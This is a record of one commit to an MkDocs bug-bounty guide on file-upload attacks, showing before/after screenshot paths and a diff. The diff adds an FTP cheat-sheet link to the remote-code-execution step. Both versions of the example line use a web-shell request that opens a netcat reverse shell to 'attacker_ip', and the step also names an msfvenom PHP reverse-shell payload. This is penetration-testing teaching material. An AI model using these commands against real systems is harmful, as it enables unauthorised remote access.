

Before and after one commit to variable190/BugBounty, an MkDocs documentation site: the page built from docs/bug-bounty-guide/file-upload-attacks-guide.md, in a window 1280 px wide and 900 px high, scrolled down 1977 px. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours.

Commit message:
Add reference to ftp cheat sheet on relevent pages.

```diff
--- a/docs/bug-bounty-guide/file-upload-attacks-guide.md
+++ b/docs/bug-bounty-guide/file-upload-attacks-guide.md
@@ -52,7 +52,7 @@
 ### 10. Escalate to RCE or Other Impacts
    - **Explanation**: If a file executes, use it for RCE (e.g., reverse shell via `msfvenom -p php/reverse_php`). Chain with LFI for further exploitation.
    - **Why It's Done**: Maximizes impact, turning upload into full system access.
-   - **Example**: Upload `shell.php`, access `/uploads/shell.php?cmd=nc -e /bin/sh attacker_ip 9001`.
+   - **Example**: Upload `shell.php`, access `/uploads/shell.php?cmd=nc -e /bin/sh attacker_ip 9001`, or use FTP (see [FTP Cheat Sheet](./ftp-cheat.md)) to upload via an open server.
 
 ### 11. Assess Prevention Measures
    - **Explanation**: Check for strong validation (whitelists, content checks), random file names, or non-executable upload directories.
```
Also changed, not shown: docs/bug-bounty-guide/information-gathering-guide.md (+1 -1 lines).
